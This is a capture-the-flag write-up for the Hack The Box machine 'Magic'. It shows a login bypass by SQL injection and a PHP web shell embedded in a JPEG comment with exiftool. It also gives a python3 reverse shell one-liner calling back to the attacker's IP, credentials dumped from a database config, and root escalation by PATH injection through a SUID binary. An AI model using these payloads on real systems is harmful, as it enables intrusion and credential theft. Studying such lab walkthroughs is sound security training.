# HTB : Magic


## Initial Recon

```
sudo nmap -sS -sV -sC 10.10.10.185 > rec_ini
```



This shows that there are only two ports open :

1) ssh port</br>
2) http port 80

Let the all ports scan run in the background while checking the website..

```
sudo nmap -p- -T5 10.10.10.185 > all_ports
```

The web page looks something like this : 


1) Trying index.php and index.html appended to the url, shows that the website uses php</br>
2) There is login prompt where the admin:admin creds fail</br>

The all ports scan shows some others ports which are filtered but unknown.




## Bruteforcing directories

Run gobuster on the main page.

```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://10.10.10.185/
```

Run using the php extension

```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://10.10.10.185/ -x php
```

Run gobuster on the login page

```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.185/login -x php
```

Directory bruteforcing doesn't give aything useful.


## Finding a sql injection vulnerability


While trying to bypass the login page, I tried a standard sql injection string.

```
' or 1=1--
```

And it worked





## Image upload


I uploaded the ss from one of my previous boxes.

The uploaded image can then be seen in the home page.



1) It seems that every image is given an unique id</br>
2) While trying to access one of the uploaded images from upload.php/try.jpg I came across the admin upload page




Lets test this

**Nothing interesting. Doesn't work at all**

3) If you try to upload a php script, with the extension as new.php.jpg then it will give the output as 

`What are you trying to do there?`

4) This means there is an initial check for the file extension and then there another check which might check the magic bytes or something.</br>
5) Changing the application type of a php script from application/x-php to image/jpeg and giving it the header JFIF; (which is used for JPG files) does not show any error but it doesn't give any success output also.<br>
6) One thing can be tried. Instead of trying to a php script as an image, we can try to pass an image with php script.</br>
7) Although after uploading an image with a php script appended to it, with only the jpeg tag seems to have been uploaded to the server but there should be a way to access it<br>
8) Going through the gobuster results, there is an /images directory which is forbidden</br>
9) But bruteforcing it another directory /uploads is found, which is also forbidden</br>



Although our uploaded images can accessed through that directory directly.


10) Upon trying to access new.php.jpeg, it wasn't found, because, it wasn't uploaded.</br>
11) I again tried uploading test.php.jpg, and access /images/uploads/test.php.jpg with the php code attached `<?php echo shell_exec($_GET[’e’].’ 2>&1’); ?>` and it gave code execution




## Getting code execution

So it appended the code `<?php system("ping -c4 10.10.14.12")?>` in the image. Then tried to access it while listening on tcpdump.

```
sudo tcmpdump -i tun0 
```

I got pings from the server.




However, these pings are just from the reloading of the page. I cannot get code execution.

So I tried injecting the code into the Comment using exiftool.

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test.php.jpg
```

Then I passed the command to the ?cmd parameter, since outbound requests are blocked.

```
/images/uploads/test.php.png?cmd=ls
```




## Getting shell

I then used the python3 reverse shell to get a reverse shell.


```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",1331));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```




You get the shell as www-data


**Refer to these**

https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hiding-webshell-backdoor-code-in-image-files/

https://github.com/xapax/security/blob/master/bypass_image_upload.md

## User

First get a shell 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
```

In the /var/www/Magic folder, there is a file called db.php5 .

```
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

This file contains the username and password which are used to access the mysql server

```
theseus : iamkingtheseus
```

Lets login to the mysql sevrer.

```
mysql -u theseus -p iamkingtheseus
```

This fails because there is no mysql binary!!!!!!!!!!!!


So when I tried locating the mysql binary I found out that the other mysql utilities like mysqshow are there.

```
mysqlshow -u theseus -p
```

Enter the password when prompted.



This shows that there is a database Magic. It contains a table called login.

```
mysqlshow -u theseus -p Magic
Enter password: iamkingtheseus

Database: Magic
+--------+
| Tables |
+--------+
| login  |
+--------+
```

There are two columns username and password

```
www-data@ubuntu:/var/www/Magic$ mysqlshow -u theseus -p Magic login
mysqlshow -u theseus -p Magic login
Enter password: iamkingtheseus

Database: Magic  Table: login
+----------+--------------+-------------------+------+-----+---------+----------------+---------------------------------+---------+
| Field    | Type         | Collation         | Null | Key | Default | Extra          | Privileges                      | Comment |
+----------+--------------+-------------------+------+-----+---------+----------------+---------------------------------+---------+
| id       | int(6)       |                   | NO   | PRI |         | auto_increment | select,insert,update,references |         |
| username | varchar(50)  | latin1_swedish_ci | NO   | UNI |         |                | select,insert,update,references |         |
| password | varchar(100) | latin1_swedish_ci | NO   |     |         |                | select,insert,update,references |         |
+----------+--------------+-------------------+------+-----+---------+----------------+---------------------------------+---------+
```


However, mysqlshow is only used to show the databases and not their contents. For this mysqldump can be used.

```
www-data@ubuntu:/var/www/Magic/images/uploads$ mysqldump -u theseus -p --databases Magic                                                                                                       
es Magicp -u theseus -p --database                                                                                                                                                             
Enter password: iamkingtheseus                                                                                                                                                                 
```





This tells us that the user `admin` has the password `Th3s3usW4sK1ng`

But we can try this for the user `theseus`

Since there is only one user in the home, theseus

```
www-data@ubuntu:/home$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/home$ 
```

This gives us the user


## Root

Let's get linpeas on the box and enumerate.

```
python3 -m http.server
```

```
wget http://10.10.14.12:8000/linpease.sh
```

```
chmod +x linpeas.sh

./linpeas.sh
```

```
[+] Users with console                                                                                                                                                                         
root:x:0:0:root:/root:/bin/bash                                                                                                                                                                
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash                                                                                                                                         
```

It seems that the user and root both share the same path for /bin/bash

Lets run pspy64 to get an idea about the processes running in the background

## Locating a possible path injection


While running pspy64 we notice that there is a binary with root privileges, called whoopsie. It is just a crash reporting binary.

```
2020/07/15 20:08:02 CMD: UID=112  PID=1109   | /usr/bin/whoopsie -
```

If we check its permissions using ls -l we find that it is owned by root.

```
theseus@ubuntu:~$ which whoopsie
/usr/bin/whoopsie
theseus@ubuntu:~$ which sudo
/usr/bin/sudo
theseus@ubuntu:~$ 
```

```
-rwxr-xr-x 1 root root 56056 Nov  4  2019 /usr/bin/whoopsie
```

The PATH environment variable :

```
theseus@ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

```
cd /tmp
mkdir test
cd test/
```

Create a file called whoopsie and write the following into it : 

```
#!/bin/bash

/bin/bash
```

Then

```
export PATH=$(pwd):$PATH
```

Execute

```
whoopsie
```

But it doesn't seem to give the root shell.


### Finding the SUID binaries 

```
find / -perm /4000 2>/dev/null
```

To find the SUID binaries.

You'll find a few binaries which might work with this.

```
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```

After trying all the binaries I found out that the binary sysinfo is calling fdisk and lshw with sudo permissions. So for path injection I created a file fdisk in the /tmp/test directory and gave the following contents in it.

```
#!/bin/bash

/bin/bash
```

So that when sysinfo executes fdisk with root permissions it'll actually call /bin/bash

```
sysinfo
```



